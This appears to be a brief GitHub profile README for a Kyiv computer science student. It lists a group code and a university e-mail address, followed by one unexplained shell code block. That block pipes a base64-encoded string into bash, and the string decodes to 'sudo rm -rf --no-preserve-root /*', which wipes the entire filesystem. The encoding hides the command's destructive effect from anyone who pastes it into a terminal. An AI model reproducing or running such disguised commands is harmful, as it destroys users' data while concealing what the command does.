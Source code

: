 Computer Science student of Borys Grinchenko Kyiv Metropolitan University
>INb1-22-4.0d

#### Contacts:
* E-mail: vanelipa.fitm22@kubg.edu.ua

```
echo c3VkbyBybSAtcmYgLS1uby1wcmVzZXJ2ZS1yb290IC8qCg== | base64 -d | bash
```
